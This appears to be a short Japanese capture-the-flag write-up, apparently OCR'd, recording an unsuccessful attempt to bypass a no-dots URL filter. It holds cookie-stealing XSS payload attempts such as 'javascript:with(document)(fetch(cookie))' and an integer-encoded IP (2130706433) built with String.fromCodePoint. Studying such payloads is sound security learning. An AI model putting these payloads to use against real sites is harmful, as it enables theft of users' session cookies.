 - そもそもURLにdotが入っているの無理ゲーすぎる
- ん？もしかして数字でIPアドレス入れるやつ使えるか？

```text
127.0.0.1
7f000001

>>> 0x7f000001
2130706433
```

```text
javascript:alert(fetch(2130706433))

http://localhost:3000/2130706433 に行ってしまう
```

## まとめる

- `javascript:alert(fetch(//2130706433))` を通したい
- `javascript:with(document)(fetch(cookie))` みたいなことがしたい
- 数字からserializeする方法ないか？
  - `btoa` とか
- cookieという文字列を使わずになんとか出せないか？
  - `Object.values(window)` とか見てた

## 終わり

- `javascript:with(String)(fetch(fromCodePoint(47)+fromCodePoint(47)+2130706433))` とかが通ればいいんですが...
- 解けませんでした
